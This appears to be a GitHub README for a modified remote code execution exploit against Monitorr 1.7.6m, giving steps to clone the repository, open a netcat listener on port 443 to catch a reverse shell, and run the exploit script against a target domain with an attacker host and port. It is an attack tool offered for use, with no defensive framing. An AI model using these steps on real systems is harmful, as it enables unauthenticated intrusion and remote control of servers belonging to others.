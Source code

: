 # Monitorr 1.7.6m Remote Code Execution (Unauthenticated)
## Modified Version by valent1ne


### Installation
``git clone https://github.com/valentinodev/monitorr_1.7.6m_rce.git``

``cd monitorr_1.7.6m_rce``

### Netcat (another terminal)
``apt install rlwrap``

``rlwrap nc -lvnp 443``

### Exploit
``python 48980.py https://domain.com LHOST PORT``

